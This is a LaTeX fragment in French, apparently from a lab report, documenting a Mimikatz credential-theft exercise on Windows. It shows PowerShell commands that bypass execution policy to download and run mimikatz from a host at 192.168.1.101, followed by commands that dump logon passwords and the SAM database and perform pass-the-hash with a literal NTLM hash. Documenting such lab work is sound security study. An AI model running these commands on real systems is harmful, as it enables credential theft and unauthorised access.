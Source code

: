 \documentclass[a4paper,12pt]{report}
\begin{document}
\begin{enumerate}
\begin{lstlisting}
# Sur Windows
powershell -ExecutionPolicy Bypass -NoProfile -Command "Invoke-WebRequest -Uri 'http://192.168.1.101:8080/mimikatz_trunk.zip' -OutFile 'C:\Windows\Temp\mimikatz.zip'"

# decompression
powershell -ExecutionPolicy Bypass -NoProfile -Command "Expand-Archive -Path 'C:\Windows\Temp\mimikatz.zip' -DestinationPath 'C:\Windows\Temp\mimikatz'"

# execution de mimikatz
powershell -ExecutionPolicy Bypass -NoProfile -Command "C:\Windows\Temp\mimikatz\x64\mimikatz.exe"

\end{lstlisting}


\begin{figure}[H] 
      \label{mimikatz-4}
        \centering
          \texttt{[image: img/mimikatz/cve\_2021\_4\_telechargement\_windows.png]} 
        \caption{Téléchargement du programme mimikatz }
    \end{figure}



\begin{figure}[H] 
      \label{mimikatz-6}
        \centering
          \texttt{[image: img/mimikatz/cve\_2021\_lancement mimikatz.png.png]} 
        \caption{exécution du programme mimikatz}
    \end{figure}

\item \textbf{Extraction des mots de passe avec Mimikatz}

\begin{lstlisting}
mimikatz # sekurlsa::logonpasswords
mimikatz # lsadump::sam
mimikatz # sekurlsa::pth /user:Administrator /domain:Client /ntlm:e02bc503339d51f71d913c245d35b50b
\end{lstlisting}

    
\begin{figure}[H] 
      \label{mimikatz-8}
        \centering
          \texttt{[image: img/mimikatz/cve\_2021\_8\_options\_mimikatz.png]} 
        \caption{les options}
    \end{figure}

\end{enumerate}

\begin{figure}[H] 
      \label{mimikatz-9}
        \centering
          \texttt{[image: img/mimikatz/cve\_2021\_9.png]} 
        \caption{récupération des comptes}
    \end{figure}
\end{document}
